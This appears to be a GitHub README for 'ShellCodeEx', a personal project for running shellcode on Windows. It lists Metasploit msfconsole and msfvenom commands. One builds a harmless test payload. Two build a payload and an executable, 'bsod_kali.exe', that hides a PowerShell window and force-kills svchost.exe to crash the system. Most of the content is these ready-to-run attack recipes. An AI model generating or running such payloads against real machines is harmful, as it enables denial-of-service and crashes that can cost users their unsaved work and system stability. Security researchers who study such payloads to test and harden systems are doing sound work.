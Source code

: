 # ShellCodeEx

[![](https://img.shields.io/badge/platform-Windows-informational)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-C-000000.svg?logo=c)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-.NET_9-651DE5.svg?logo=dotnet)](https://dotnet.microsoft.com/download/dotnet/6.0)
[![](https://img.shields.io/badge/written_on-C%23-%23239120.svg?logo=sharp&logoColor=white)](https://github.com/Zalexanninev15/SharkRemoteV4)
[![](https://img.shields.io/github/v/release/Zalexanninev15/ShellCodeEx)](https://github.com/Zalexanninev15/ShellCodeEx/releases/latest)
[![](https://img.shields.io/github/downloads/Zalexanninev15/ShellCodeEx/total.svg)](https://github.com/Zalexanninev15/ShellCodeEx/releases)
[![](https://img.shields.io/github/last-commit/Zalexanninev15/ShellCodeEx/main.svg)](https://github.com/Zalexanninev15/ShellCodeEx/commits/main)
[![](https://img.shields.io/github/stars/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/stargazers)
[![](https://img.shields.io/github/forks/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/network/members)
[![](https://img.shields.io/badge/license-GPLv3-ligthgreen.svg)](LICENSE)
[![](https://img.shields.io/badge/Donate-FFDD00.svg?logo=buymeacoffee&logoColor=black)](https://z15.neocities.org/donate)

## Description

My personal experiment on executing shellcode on Windows.

## Kali Linux commands for generate shellcode

### Test shellcode (need PowerShell 7 on Windows):

```bash
msfconsole -x "use payload/windows/x64/exec; set CMD 'pwsh -CommandWithArgs \"ls\" && pause'; generate -f ps1"
```

### Generate BSOD (building an executable file)

```bash
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD='cmd.exe /c start /min powershell -Command "Start-Process cmd -ArgumentList \"/c taskkill /F /IM svchost.exe\" -WindowStyle Hidden"' -b '\x00\x0A\x0D' -f exe -o bsod_kali.exe
```

### Generate BSOD

```bash
> msfconsole
> use payload/windows/x64/exec
> set CMD cmd.exe /c start /min powershell -Command \"Start-Process cmd -ArgumentList \\\"/c taskkill /F /IM svchost.exe\\\" -WindowStyle Hidden\"
```
